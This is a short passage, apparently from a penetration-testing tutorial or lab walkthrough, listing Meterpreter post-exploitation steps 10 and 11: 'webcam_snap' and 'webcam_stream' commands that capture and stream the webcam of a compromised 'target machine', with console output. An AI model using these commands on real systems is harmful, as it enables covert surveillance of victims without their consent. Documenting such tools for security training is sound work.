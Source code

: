 ![](assets/eb02.png)

### 10. Capture image from the webcam on the target machine

`webcam_snap`

```
[*] Starting...
[+] Got frame
[*] Stopped
```

### 11. Stream from the webcam on the target machine

`webcam_stream`

```
[*] Starting...
[*] Preparing player...
[*] Opening player at: /home/kali/aZmtiTvX.html
[*] Streaming...
```
